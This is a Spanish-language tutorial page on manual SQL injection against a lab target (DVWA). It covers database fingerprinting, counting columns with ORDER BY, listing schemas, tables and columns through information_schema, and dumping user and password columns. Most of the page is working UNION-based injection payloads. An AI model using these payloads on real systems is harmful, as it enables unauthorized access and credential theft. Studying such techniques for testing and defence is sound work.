```yaml
---
description: Extrayendo información despues de obtener acceso a la base de datos.
---
```


# EXTRACCIÓN DE INFORMACIÓN.

## **DETECTANDO GESTOR DE BASE DE DATOS**

**1.** Utilizar herramientas como **NMAP** o similares

* Puerto 3306 MySQL por defecto

&#x20;**2.** Utilizar **TABLA DE CONCATENACION:**

|  GESTOR     |  'a' \|\| 'b' |  'a' + 'b' |  concat('a','b') |
| ----------- | ------------- | ---------- | ---------------- |
|  Oracle     |  'ab'         |  ERROR     |  'ab'            |
|  PostgreSQL |  'ab'         |  ERROR     |  ERROR           |
|  MySQL      |  0            |  'ab'      |  'ab'            |
|  SQL Server |  ERROR        |  'ab'      |  ERROR           |

&#x20;Si introduce como input alguna de las siguientes concatenaciones, sabrá que GESTOR es mas posible que sea en funcion del resultado obtenido.

&#x20;Tambien puede utilizar:

&#x20;`@@Version` → Para MySQL y MsSQL\
&#x20;`Version()` → PostgreSQL y MySQL\
&#x20;`banner FROM v$version` → Oracle

## **DETERMINANDO CANTIDAD DE COLUMNAS**

&#x20;El metodo variara en caso de que la inyeccion sea **Integer** o **String**:

### &#x20;**1. INTEGER**

&#x20;Primero debo comprobar que la web es vulnerable a SQL Injection.

&#x20;En este caso, utilizo `-1` en vez de (') por ser inyección de integer.

&#x20;Despues utilizo **`-1 ORDER BY 5 -- -`** Para ordenar las columnas de 5 en 5.

&#x20;Continuo con **`-1 ORDER BY 10 -- -`** Y resulta que me da error al no encontrar la columna numero 10.

&#x20;Intento con **`-1 ORDER BY 8 -- -`** Y no me da error.

&#x20;En cambio con **`-1 ORDER BY 9 -- -`** Si que da error.

&#x20;Por lo tanto, el numero de columnas es exactamente 8.

&#x20;Por ultimo, para comprobar hago **`-1 UNION SELECT 1,2,3,4,5,6,7,8 -- -`** Y no me da ningun error.

### &#x20;**2. CADENA**

&#x20;Primero debo comprobar con (') que la web es vulnerable a SQL Injection.

&#x20;Despues utilizo **`' ORDER BY 5 -- -`** Para ordenar las columnas de 5 en 5.

&#x20;Continuo con **`' ORDER BY 10 -- -`** Y resulta que me da error al no encontrar la columna numero 10.

&#x20;Intento con **`' ORDER BY 8 -- -`** Y no me da error.

&#x20;En cambio con **`' ORDER BY 9 -- -`** Si que da error.

&#x20;Por lo tanto, el numero de columnas es exactamente 8.

&#x20;Por ultimo, para comprobar hago **`' UNION SELECT 1,2,3,4,5,6,7,8 -- -`** Y no me da ningun error.

## &#x20;**DETERMINANDO NOMBRE DE LA BASE DE DATOS / TABLAS / COLUMNAS**

&#x20;**1.** Lo primero como ya hemos visto es comprobar que es vulnerable **(')**

&#x20;**2.** Despues compruebo el numero de columnas con **`ORDER BY`** como en el punto anterior.

&#x20;**3.** Utilizo **`' UNION SELECT 1,2 -- -`** para comprobar y si no me da error, esta correcto.

&#x20;**4**. Ahora puedo cambiar 1 y 2 por otro tipo de informaciones sacadas de la tabla:

&#x20;**`' UNION SELECT @@version,2 -- -`** → muestra la version donde deberia estar el valor de 1.

&#x20;**`' UNION SELECT table_schema,2 FROM information_schema.schemata -- -`** → muestra los nombres de las bases de datos.

&#x20;**`' UNION SELECT table_schema,table_name FROM information_schema.tables -- -`** → muestra el nombre de las tablas y a que Base de datos pertenece.

&#x20;**`' UNION SELECT table_name,column_name FROM information_schema.columns -- -`** → muestra el nombre de las tablas y las columnas que le pertenecen.

## &#x20;**FILTRANDO DATOS DE SALIDA PARA OPTIMIZAR**

&#x20;Ya sabemos como extraer mucha informacion de la base de datos, pero, en ocasiones, se da el caso de que la web solo nos ofrece una pieza de informacion. O por el contrario, nos ofrece toda la informacion posible. Es por eso que tengo que saber como filtrar la informacion.

&#x20;**1.** Compruebo que base de datos quiero atacar.

&#x20;**`' UNION SELECT table_schema,2 FROM information_schema.tables -- -`**

&#x20;Asi obtengo los nombres de las bases de datos y elijo la que yo quiero atacar.

&#x20;**2.** Ahora, para obtener las tablas de esta base de datos tengo que filtrar:

&#x20;**`‘ UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=’dvwa' -- -`**

&#x20;Ahora solo veo las tablas de la Base de datos “dvwa” por lo que puedo elegir la tabla que quiero atacar.

&#x20;**3.** Seguimos para obtener las columnas de la tabla “users”

&#x20;**`‘ UNION SELECT column_name,2 FROM information_schema.columns WHERE table_schema=’dvwa' AND table_name='users' -- -`**

&#x20;Ya obtengo las columnas dentro de la tabla users de la base de datos dvwa. Ya solo queda sacar la informacion de las columnas.

&#x20;Si solo puedo ver un dato al mismo tiempo, debo empezar a concatenar AND y != para ir navegando por cada una de las Bases de Datos, Luego tablas, luego columnas y por ultimo datos.

&#x20;**`' UNION SELECT table_schema,2 FROM information_schema.tables WHERE table_schema!=dvwa AND table_schema!=fonts -- -`**

&#x20;Asi, filtrando poco a poco vamos obteniendo la informacion que queremos.

## &#x20;**EXTRAER TODOS LOS DATOS DE UNA BASE DE DATOS**

&#x20;Ya hemos conseguido alcanzar la COLUMNA de la TABLA de la BASE DE DATOS que nos interesa. Ahora necesitamos sacar la informacion de esta columna:

&#x20;**`' UNION SELECT user,password FROM users -- -`**

&#x20;Como ya sabemos la tabla de la que queremos sacar la informacion, no hace falta nada mas.

## &#x20;**EXTRAER INFORMACION CON METODO POST**

&#x20;En todos los casos anteriores hemos utilizado el metodo **GET**, es decir, modificando el URL.

&#x20;El metodo **POST** no me permite mostrar ni modificar los datos en el URL,

&#x20;Para hacer las consultas con el metodo **POST** necesito una herramienta como **BURP SUITE** para modificar la solicitud **POST** en caliente antes de la transmision.

&#x20;El procedimiento para obtener la informacion seria el mismo.
